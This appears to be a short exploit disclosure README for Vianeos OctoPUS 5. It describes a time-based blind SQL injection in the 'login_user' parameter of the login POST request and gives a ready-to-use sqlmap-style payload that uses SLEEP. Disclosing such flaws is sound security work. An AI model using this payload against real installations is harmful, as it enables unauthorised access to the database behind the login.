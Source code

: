 # vianeos-octopus_V5_SQLi

```
# Exploit Title: Vianeos OctoPUS 5 - 'login_user' SQLi
# Date: 01/07/2021
# Vendor Homepage: http://www.vianeos.com/en/home-vianeos/
# Software Link: http://www.vianeos.com/en/octopus/
# Version: > V5
# Tested on: Fedora / Apache2 / MariaDB
```


Octopus V5 SQLi

The "login_user =" parameter present in the POST authentication request is vulnerable to an Time Based SQLi as follow :

```
Parameter: login_user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: signin_user=1&login_user=1' AND (SELECT 8860 FROM (SELECT(SLEEP(5)))xENj) AND 'OoKG'='OoKG&password_user=1
```
